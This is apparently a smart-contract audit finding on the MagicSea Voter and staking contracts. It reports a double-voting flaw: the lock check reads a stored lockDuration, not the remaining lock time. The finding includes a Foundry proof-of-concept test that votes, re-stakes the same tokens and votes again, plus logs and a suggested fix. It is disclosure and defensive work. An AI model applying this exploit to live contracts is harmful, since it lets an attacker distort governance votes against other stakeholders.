 Sleepy Navy Ant

Medium

# attacker can vote twice with same staking tokens

## Summary

For a voter to cast a vote, they must have a position with a `lockDuration` greater than the voting period. This requirement prevents a voter from withdrawing and transferring funds to another position to vote again. However, due to the check relying on an outdated value of `lockDuration`, an attacker can exploit this by voting with one position and then transferring the tokens to another position to vote again, effectively allowing double voting with the same staked tokens.

## Vulnerability Detail

to vote with a position it needs to pass these checks for lockDuration:

- Voter
```solidity
if (_mlumStaking.getStakingPosition(tokenId).initialLockDuration < _minimumLockTime) {
    revert IVoter__InsufficientLockTime();
}
=>if (_mlumStaking.getStakingPosition(tokenId).lockDuration < _periodDuration) {
    revert IVoter__InsufficientLockTime();
}
```

in line 175 the check is based on the lockDuration of the position:

- mlumStaking
```solidity
function getStakingPosition(uint256 tokenId) external view override returns (StakingPosition memory position) {
        position = _stakingPositions[tokenId];
    }
```

this lockDuration is the value stored for the position and not how much it is currently locked, basically allowing users to vote while their current lockDuration is lower than the votingPeriod.

- example:
    1. a user creates a position with `lockDuration = _minimumLockTime`
    2. after the lockDuration he is able to withdraw his position
    3. but he is also still able to vote because both checks pass
    4. the inititalLockDuration = _minimumLockTime
    5. and the lockDuration is saved from the creation of the position = _minimumLockTime
    6. he can then withdraw his tokens
    7. add them to another position and vote again


## Proof Of Concept

in this coded POC i showed that a user can double vote with the same staking tokens, because the unlockDuration doesn't reflect the actual lockTime for the position.

- to run: `forge test --match-test testDoubleVoting -vv`

- Voter
```solidity
function testDoubleVoting() public{
        address attacker = address(0x1337);

        //pool to vote for
        address[] memory pools = new address[](1);
        pools[0] = 0x95f00a7125EC3D78d6B2FCD6FFd9989941eF25fC;

        //amounts
        uint[] memory deltaAmounts = new uint256[](1);
        deltaAmounts[0] = 1.5 ether;

        //attacker creates position and funds it with most staking tokens
        {
            
        _stakingToken.mint(attacker, 2 ether);

        vm.startPrank(attacker);
        _stakingToken.approve(address(_pool), 1000 ether);
        _pool.createPosition(1.5 ether, 4 weeks);
        vm.stopPrank();
        }

        vm.warp(block.timestamp + 4 weeks);

        //owner starts a new voting period
        vm.prank(DEV);
        _voter.startNewVotingPeriod();

        //attacker votes with position even though he is able to unlock his funds directly
        {
        vm.startPrank(attacker);
        _voter.vote(1, pools, deltaAmounts);

        //check that the pool got the votes
        console.log("votes after voting once: ", _voter.getVotesPerPeriod(1, pools[0]));

        //attacker then withdraws his staked tokens and adds them to another position and votes again
        _pool.withdrawFromPosition(1, 1.5 ether);
        _pool.createPosition(1.5 ether, 4 weeks);
        _voter.vote(2, pools, deltaAmounts);

        //check that the pool got double votes

        console.log("votes after double voting: ", _voter.getVotesPerPeriod(1, pools[0]));

        vm.stopPrank();
        }

    }
```

- logs
```solidity
votes after voting once:  1500000000000000000
votes after double voting:  3000000000000000000
```

## Impact

any attacker is able to vote twice with same staking tokens.

## Code Snippet

https://github.com/sherlock-audit/2024-06-magicsea/blob/42e799446595c542eff9519353d3becc50cdba63/magicsea-staking/src/Voter.sol#L153-L177

## Recommendation

get the current lockDuration instead of the saved old one:

```diff
- if (_mlumStaking.getStakingPosition(tokenId).lockDuration < _periodDuration) {
+ if (_mlumStaking.remainingLockTime(_mlumStaking.getStakingPosition(tokenId)) < _periodDuration)
revert IVoter__InsufficientLockTime();
        }
```

this will get the `remainingLockTime` instead of the saved lock duration. need to make `_remainingLockTime` public instead of internal.